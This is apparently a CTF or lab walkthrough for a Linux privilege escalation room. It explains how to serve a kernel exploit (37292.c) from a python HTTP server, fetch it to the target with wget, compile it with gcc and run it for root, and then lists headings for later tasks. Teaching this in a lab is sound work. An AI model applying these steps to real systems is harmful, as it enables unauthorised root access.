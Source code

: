 # Answer the questions below
find and use the appropriate kernel exploit to gain root privileges on the target system.`No answer needed`

  1. Identify the kernel version.
  2. Search and find an exploit code for the kernel version of the target system.
This we can find with some quick Googling. Download the exploit and move it into your `/tmp` folder.We can also get it via `searchploit`.
  3. 3. Run the exploit.Open up the terminal on your local machine, and start up the machine in Attackbox. In Attackbox, let's run the id command and take note of our current user privilege.On your local machine, we need to start up a python server so that we can send our downloaded exploit to our target machine in Attackbox. We can do this via the `python3 -m http.server 8000` command. Don't close this terminal.Open up a new tab/terminal so that we can get the IP address of our local machine. We need this to connect to our target machine. Use the `ifconfig` command and scroll down.
Cool, now we can go ahead and send our exploit that we downloaded and stored in our /tmp file to our target machine. Go to your Attackbox and first cd into your /tmp folder before connecting to your local machine. If you don't cd into /tmp first then you will get an error when trying to connect. Now, to send the exploit and make a connection we can enter the following command (replace the IP with your ifconfig IP) `wget http://yourip:8000/37292.c`.Okay, the exploit is sent. Now to convert it, we can enter the following command `gcc 37292.c -o pwned`. With our exploit converted, we can run it via the `./pwned` command.

# What is the content of the flag1.txt file? 



# Task 6 Privilege Escalation: Sudo

# Task 7 Privilege Escalation: SUID

# Task 8 Privilege Escalation: Capabilities

# Task 9 Privilege Escalation: Cron Jobs

# Task 10 Privilege Escation: PATH

# Task 11 Privilege Escalations: NFS

# Task 12 Capstone Challenge

## ③ Windows Privilege Escalation
Learn the fundamentals of Windows privilege escalation techniques.
